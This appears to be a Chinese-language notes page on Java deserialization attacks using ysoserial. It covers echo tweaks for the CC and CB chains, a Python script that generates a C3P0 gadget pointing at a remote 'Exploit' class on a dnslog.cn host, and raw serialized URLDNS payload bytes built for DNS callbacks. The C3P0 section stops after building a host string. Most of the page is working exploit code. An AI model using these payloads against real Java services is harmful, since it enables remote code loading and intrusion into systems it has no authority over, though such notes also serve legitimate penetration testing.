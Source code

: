 ## 回显
- CC链的回显修改createTemplatesImplEcho方法
- CB链的回显在ysoserial包下新增一个ClassLoader，在其static代码块中修改即可


## 生成hex字符串方法
```py
import subprocess

ysoserial_path = 'D:\\repos\\ysoserial\\target\\ysoserial-0.0.8-SNAPSHOT-all.jar'
popen = subprocess.Popen(['D:\\repos\\Java\\jdk1.7.0_80\\bin\\java.exe', '-jar', ysoserial_path, 'C3P0', 'http://7777777777.c3p0.dnslog.cn/:Exploit'], stdout=subprocess.PIPE)
print(popen.stdout.read())
```

## 常用gadget的二进制代码
用于dnslog的替换

### URLDNS

```py
import struct

# URLDNS http://7777777777.urldns.qq.dnslog.cn/test
urldns_url   = 'http://{0}.urldns.{1}/test'.format(self.BANNER, self.DOMAIN)
urldns_url_b = urldns_url.encode()
urldns_host  = '{0}.urldns.{1}'.format(self.BANNER, self.DOMAIN)
urldns_host_b= urldns_host.encode()

__bb_URLDNS = b"\xac\xed\x00\x05sr\x00\x11java.util.HashMap\x05\x07\xda\xc1\xc3\x16`\xd1\x03\x00\x02F\x00\nloadFactorI\x00\tthresholdxp?@\x00\x00\x00\x00\x00\x0cw\x08\x00\x00\x00\x10\x00\x00\x00\x01sr\x00\x0cjava.net.URL\x96%76\x1a\xfc\xe4r\x03\x00\x07I\x00\x08hashCodeI\x00\x04portL\x00\tauthorityt\x00\x12Ljava/lang/String;L\x00\x04fileq\x00~\x00\x03L\x00\x04hostq\x00~\x00\x03L\x00\x08protocolq\x00~\x00\x03L\x00\x03refq\x00~\x00\x03xp\xff\xff\xff\xff\xff\xff\xff\xfft" +  struct.pack('>H', len(urldns_host_b)) + urldns_host_b + b"t\x00\x05/testq\x00~\x00\x05t\x00\x04httppxt" + struct.pack('>H', len(urldns_url_b)) + urldns_url_b + b"x"

```

### C3P0
```py
import struct

# http://7777777777.c3p0.qq.dnslog.cn/:Exploit
c3p0_host =  'http://{0}.c3p0.{1}'.format(self.BANNER, self.DOMAIN)
c3p0_host_b= c3p0_host.encode()

```